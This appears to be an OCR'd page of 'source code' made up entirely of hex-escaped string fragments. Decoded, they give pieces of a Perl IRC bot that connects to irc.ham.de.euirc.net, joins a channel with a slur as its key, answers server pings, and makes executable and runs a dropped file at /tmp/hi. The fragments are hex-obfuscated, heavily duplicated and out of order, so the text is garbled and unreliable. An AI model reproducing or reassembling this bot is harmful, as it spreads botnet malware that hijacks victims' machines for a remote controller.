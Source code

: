"\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
"\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
"\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
"\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
"\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
"\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
"\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
"\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
"\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
"\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
"\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
"\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
"\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
"\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
"\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
"\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
"\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
"\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
"\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
"\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
"\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
"\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
"\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
"\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
"\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
"\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
"\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
"\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
"\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
"\x64\x20\x2b\x78\x20\x2f\x74\x6d\x70\x2f\x68\x69\x20\x32\x3e\x2f"
"\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x3b\x2f\x74\x6d\x70\x2f\x68\x69"
"\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
"\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
"\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
"\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
"\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
"\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
"\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
"\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
"\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
"\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
"\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
"\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
"\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
"\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
"\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
"\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
"\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
{% endhighlight %}
